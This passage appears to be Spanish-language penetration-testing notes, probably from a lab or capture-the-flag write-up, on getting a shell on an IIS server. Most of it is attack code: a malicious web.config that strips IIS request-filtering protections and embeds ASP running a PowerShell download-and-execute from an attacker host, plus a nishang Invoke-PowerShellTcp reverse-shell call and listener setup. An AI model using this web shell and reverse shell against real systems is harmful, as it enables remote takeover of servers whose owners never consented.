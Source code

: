 <img src="7e647b9beee819a8a5dfa13e68c7d6d5.png" alt="7e647b9beee819a8a5dfa13e68c7d6d5.png" width="2182" height="288" class="jop-noMdConv">

Para obtenre una consola interactiva, usaremos nishang.

[https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

Una vez descargado, vamos a insertar lo siguiente al final

```bash
Invoke-PowerShellTcp -Reverse -IPAddress <Ip atacante> -Port 443
```
- Archivo web.config

```bash
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
Set wShell = CreateObject("WScript.Shell")
Set cmd = wShell.Exec("cmd.exe /c powershell -c iex(new-object net.webclient).downloadstring('http://ip-atacante/nishangPStcp.ps1')")
output = cmd.StdOut.Readall()
Response.write(output)
%>
```
Con ncat nos ponemos a la escucha por el puerto que colocamos en el archivo "nishangPStcp.ps1" 
 y con python un servidor en el puerto 80
